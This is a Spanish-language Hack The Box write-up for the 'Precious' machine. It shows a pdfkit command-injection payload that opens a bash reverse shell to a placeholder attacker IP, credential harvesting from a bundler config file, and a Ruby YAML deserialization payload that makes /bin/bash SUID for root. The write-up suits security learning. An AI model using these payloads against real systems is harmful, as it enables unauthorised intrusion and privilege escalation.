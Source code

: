 ```yaml
---
title: Precious Writeup
author: miguel3023
date: 2022-11-19
categories: [Writeup, HTB]
tags: [Linux, CTF, Easy, CommandInjection, Sudoers, RCE]
image:
  path: ../../assets/img/commons/Precious/Precious.png
  width: 800
  height: 450 
---
```


## Reconocimiento

Primeramente realizamos un escaneo con nmap para detectar los puertos abiertos

```
❯ nmap -p- --min-rate 5000 --open -v -n -Pn 10.129.77.238 -oG OpenPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-27 16:16 -05
Initiating SYN Stealth Scan at 16:16
Scanning 10.129.77.238 [65535 ports]
Discovered open port 80/tcp on 10.129.77.238
Discovered open port 22/tcp on 10.129.77.238
Completed SYN Stealth Scan at 16:16, 14.00s elapsed (65535 total ports)
Nmap scan report for 10.129.77.238
Host is up (0.12s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
Con **whatweb** podemos ver qué tecnologías emplea la web que hay en el puerto 80. Vemos que hay un redirec, entonces incluimos el dominio al **/etc/hosts**

```
❯ whatweb http://10.129.77.238
http://10.129.77.238 [302 Found] Country[RESERVED][ZZ], HTTPServer[nginx/1.18.0], IP[10.129.77.238], 
RedirectLocation[http://precious.htb/], Title[302 Found], nginx[1.18.0]

http://precious.htb/ [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.18.0 + Phusion Passenger(R) 6.0.15], 
IP[10.129.77.238], Ruby-on-Rails, Title[Convert Web Page to PDF], UncommonHeaders[x-content-type-options], 
X-Frame-Options[SAMEORIGIN], X-Powered-By[Phusion Passenger(R) 6.0.15], X-XSS-Protection[1; mode=block], nginx[1.18.0]
```

Luego con nmap detectamos la versión y los servicios que están en los puertos que encontramos previamente abiertos

```
❯ nmap -sCV -p22,80 10.129.77.238 -oN targeted
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-27 16:27 -05
Nmap scan report for 10.129.77.238
Host is up (0.13s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 84:5e:13:a8:e3:1e:20:66:1d:23:55:50:f6:30:47:d2 (RSA)
|   256 a2:ef:7b:96:65:ce:41:61:c4:67:ee:4e:96:c7:c8:92 (ECDSA)
|_  256 33:05:3d:cd:7a:b7:98:45:82:39:e7:ae:3c:91:a6:58 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Si nos vamos a la web, podremos ver un convertidor de web a PDF. Si ponemos un servidor con python podemos ver que nos captura lo que tenemos en local y lo convierte a PDF, sin embargo si interceptamos la petición con **BurpSuite** en la respuesta veremos "Generated by pdfkit v0.8.6"

![Burpsuite]({{ 'assets/img/commons/Precious/peticion.png' | relative_url }}){: .center-image }
_Petición por Burp_ 

## Intrusión

Si buscamos vulnerabilidades ante esa versión de **pdfkit** encontramos este [artículo](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795) que nos dice cómo explotarla.

Si vemos en [MonkeyPentester](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) hay una forma de entablarnos una reverse shell con bash, sólo que en este caso le añadimos el **bash -c** para que nos lea el primer argumento y le hacemos la petición al localhost para que nos ejecute ese comando
```
localhost/?name=#{"%20`bash -c 'bash -i >& /dev/tcp/<tuip>/<puerto> 0>&1'`"}
```

Antes de hacer lo anterior debimos estar en escucha con **nc** y obtendremos la shell

```
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.68] from (UNKNOWN) [10.129.77.238] 55796
bash: cannot set terminal process group (679): Inappropriate ioctl for device
bash: no job control in this shell
ruby@precious:/var/www/pdfapp$ 

```
## Privesc

Luego igualamos **TERM** a **xterm** para poder hacer control+L y nos limpie la pantalla


```
ruby@precious:/var/www/pdfapp$ export TERM=xterm
```
Si nos vamos al directorio de **Home** de Ruby podemos ver un directorio ".bundle" oculto al cual si entramos y visualizamos el archivo de configuración encontramos las credenciales de Henry


```
ruby@precious:~/.bundle$ ls
config
ruby@precious:~/.bundle$ cat config 
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI*******"
ruby@precious:~/.bundle$ 
```

Una vez dentro podremos visualizar la flag de user

```
ruby@precious:~/.bundle$ su henry 
Password: 
henry@precious:/home/ruby/.bundle$ whoami
henry
henry@precious:/home/ruby/.bundle$ cat /home/henry/user.txt 
6b76013c67d712c4d671314833926bc7
henry@precious:/home/ruby/.bundle$
```
Vemos que tenemos permisos de sudoers

```
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
henry@precious:~$
```
Visualizamos el **/opt/update_dependencies.rb**

```ruby 
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```
Es un script en Ruby y vemos que lee y ejecuta un archivo "dependencies.yml" el cual nosotros crearemos y meteremos un payload para escalar privilegios. Si buscamos por archivos yml payloads encontraremos un [artículo](https://staaldraad.github.io/post/2019-03-02-universal-rce-ruby-yaml-load/) donde al final nos pone un repositorio en [github](https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565). Tomamos el segundo payload y lo modificamos para que nos dé permiso SUID en la **/bin/bash**


```ruby 
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "chmod u+s /bin/bash"
         method_id: :resolve
```
Le damos permisos de ejecución al "dependencies.yml"

```
henry@precious:~$ ls
dependencies.yml  user.txt
henry@precious:~$ chmod +x dependencies.yml
```
Luego ejecutamos con ruby el "/opt/update_dependencies.rb"


```
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
```
Listo, veremos que el "/bin/bash" tendrá permiso SUID y simplemente ponemos "bash -p" para convertirnos en root y visualizar la flag de root 

```
henry@precious:~$ ls -l /bin/bash 
-rwsr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash
henry@precious:~$ bash -p
bash-5.1# whoami
root
bash-5.1# cd /root/
bash-5.1# cat root.txt 
9ac4d14553215cb0537bf66d7232f157
bash-5.1#
```
